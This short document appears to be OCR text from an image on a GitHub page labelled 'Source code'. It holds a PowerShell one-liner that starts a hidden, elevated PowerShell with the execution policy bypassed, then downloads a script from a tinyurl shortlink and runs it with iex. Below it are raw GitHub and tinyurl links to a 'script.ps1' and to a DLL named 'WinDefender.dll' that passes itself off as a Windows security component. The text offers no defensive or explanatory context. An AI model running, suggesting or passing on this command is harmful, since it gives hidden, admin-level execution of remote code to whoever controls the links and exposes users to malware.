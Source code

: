 powershell -Command "Start-Process powershell -ArgumentList '-ExecutionPolicy Bypass -Command iwr -Uri https://tinyurl.com/yvjzsyk3 -UseBasicParsing | iex' -Verb RunAs  -WindowStyle Hidden"

https://raw.githubusercontent.com/steamworker/Defender/refs/heads/main/script.ps1
https://tinyurl.com/yvjzsyk3

https://raw.githubusercontent.com/steamworker/Defender/refs/heads/main/WinDefender.dll
https://tinyurl.com/2s35eutk